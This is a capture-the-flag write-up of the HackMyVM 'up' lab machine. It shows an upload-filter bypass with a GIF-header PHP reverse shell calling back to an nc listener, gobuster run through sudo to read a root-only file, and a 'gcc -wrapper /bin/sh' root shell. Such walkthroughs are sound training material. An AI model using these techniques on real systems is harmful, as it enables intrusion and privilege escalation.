

# up

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| up | r0dgar | Beginner | HackMyVM |

**Summary:** The exploitation of the Up virtual machine centers on a multifaceted attack against a web based image upload utility. Initial access is obtained by bypassing client side extension filters and a hidden backend filename obfuscation logic which utilizes a ROT13 transformation. By crafting a polyglot file that pairs a GIF magic header with a PHP reverse shell, an interactive session is established as the service user. The subsequent lateral movement phase demonstrates a creative misuse of administrative binaries, specifically leveraging gobuster's wordlist processing capabilities to leak the contents of a privileged password file. This information leakage allows for a successful authentication as the rodgar user. The final transition to root authority is achieved by exploiting a misconfigured sudo entry for the GCC compiler, using its wrapper functionality to execute a privileged system shell.

---

## Reconnaissance

The engagement began with a network discovery scan to locate the target host within the local subnet.

```powershell
PS D:\hackmyvm\machines> D:\CTF_Tools\ScanNetwork-CTF.ps1
[*] Your IP  : 192.168.100.1
[*] Scanning : 192.168.100.0/24
[*] Status   : Pinging hosts...

[+] Virtual Targets Found:
------------------------------------------------------------

IP              MAC               Vendor
--              ---               ------
192.168.100.194 08:00:27:DC:A6:7D VirtualBox
```

With the target identified at 192.168.100.194, a focused Nmap scan was executed to enumerate available services.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/up]
└─$ nmap -sV -sC -p- 192.168.100.194
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-12 20:51 WIB
Nmap scan report for 192.168.100.194
Host is up (0.0024s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: RodGar - Subir Imagen

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.94 seconds
```

The scan identifies an Apache web server on port 80. A subsequent directory brute force attack using feroxbuster revealed an uploads directory and a javascript folder.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/up]
└─$ feroxbuster -u http://192.168.100.194/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.100.194/
 🚩  In-Scope Url          │ 192.168.100.194
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      280c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      320c http://192.168.100.194/uploads => http://192.168.100.194/uploads/
301      GET        9l       28w      323c http://192.168.100.194/javascript => http://192.168.100.194/javascript/
200      GET      150l      388w     4489c http://192.168.100.194/
```

## Initial Access

1. The landing page features a simple image upload form.


2. Attempting to upload a standard PHP script resulted in an error, indicating that only specific image extensions are permitted.


3. Further enumeration of the /uploads/ directory uncovered a base64 encoded string within a robots.txt file.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/up]
└─$ curl -s http://192.168.100.194/uploads/robots.txt | base64 -d
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $targetDir = "uploads/";
    $fileName = basename($_FILES["image"]["name"]);
    $fileType = pathinfo($fileName, PATHINFO_EXTENSION);
    $fileBaseName = pathinfo($fileName, PATHINFO_FILENAME);

    $allowedTypes = ['jpg', 'jpeg', 'gif'];
    if (in_array(strtolower($fileType), $allowedTypes)) {
        $encryptedFileName = strtr($fileBaseName,
            'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz',
            'NOPQRSTUVWXYZABCDEFGHIJKLMnopqrstuvwxyzabcdefghijklm');

        $newFileName = $encryptedFileName . "." . $fileType;
        $targetFilePath = $targetDir . $newFileName;

        if (move_uploaded_file($_FILES["image"]["tmp_name"], $targetFilePath)) {
            $message = "El archivo se ha subido correctamente.";
        } else {
            $message = "Hubo un error al subir el archivo.";
        }
    } else {
        $message = "Solo se permiten archivos JPG y GIF.";
    }
}
?>
```

4. To bypass these restrictions, a standard PHP reverse shell was prepended with a GIF magic header and renamed with a .gif extension.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/up]
└─$ head -n 5 php-reverse-shell.php
GIF89a;
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
```

The filename php-reverse-shell.php.gif was calculated using ROT13 to determine its final path on the server.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/up]
└─$ echo "php-reverse-shell.php" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
cuc-erirefr-furyy.cuc
```

5. After uploading the payload, a listener was started and the shell was triggered by requesting the obfuscated filename.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/up]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/up]
└─$ curl -i http://192.168.100.194/uploads/cuc-erirefr-furyy.cuc.gif
```

Access was successfully established as the www-data user.

```bash
connect to [172.20.131.21] from (UNKNOWN) [172.20.128.1] 64465
Linux debian 6.1.0-26-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.112-1 (2024-09-30) x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Lateral Movement

1. Enumeration of the file system revealed a clue.txt file in the uploads directory pointing to a privileged file location.

```bash
$ cat /var/www/html/uploads/clue.txt
/root/rodgarpass
```

2. Checking sudo permissions for www-data showed that gobuster could be executed as root without a password.

```bash
$ sudo -l
User www-data may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/gobuster
```

3. A creative exploitation of gobuster was used to read the privileged /root/rodgarpass file by specifying it as a wordlist for a directory scan.

```bash
$ sudo /usr/bin/gobuster dir -u http://localhost -w /root/rodgarpass -vq
Missed: /b45cffe084dd3d20d928bee85e7b0f2 (Status: 404) [Size: 271]
```

4. The leaked string b45cffe084dd3d20d928bee85e7b0f2 was identified as a 31 character partial hash. By manually brute forcing the 32nd character, the password for the rodgar user was discovered.

```bash
$ su - rodgar
Password: b45cffe084dd3d20d928bee85e7b0f21
id
uid=1001(rodgar) gid=1001(rodgar) grupos=1001(rodgar)
```

## Privilege Escalation

Checking sudo permissions for rodgar revealed access to the gcc and make binaries.

```bash
$ sudo -l
User rodgar may run the following commands on debian:
    (ALL : ALL) NOPASSWD: /usr/bin/gcc, /usr/bin/make
```

The gcc binary was exploited using its -wrapper flag, which allows specifying an executable to wrap the compilation process. By passing /bin/sh as the wrapper, a root shell was successfully spawned.



```bash
$ sudo gcc -wrapper /bin/sh,-s x
id
uid=0(root) gid=0(root) grupos=0(root)
```

System flags were then retrieved to complete the challenge.

```bash
# cat /home/rodgar/user.txt
b45[REDACTED]
# cat /root/rooo_-tt.txt
44b[REDACTED]
```

---

## Attack Chain Summary
1. **Reconnaissance**: Scanned the network and identified port 80, followed by directory enumeration which discovered an uploads folder.
2. **Vulnerability Discovery**: Analyzed a base64 encoded robots.txt to uncover a PHP upload logic vulnerable to extension bypass and predictable filename obfuscation.
3. **Exploitation**: Uploaded a PHP polyglot shell masked as a GIF and triggered it via its ROT13 transformed filename to gain initial access.
4. **Internal Enumeration**: Located a clue pointing to a root protected password file and identified a sudo misconfiguration for gobuster.
5. **Privilege Escalation**: Used gobuster to leak the root password hash, transitioned to the rodgar user, and finally leveraged gcc's wrapper functionality to obtain a root shell.

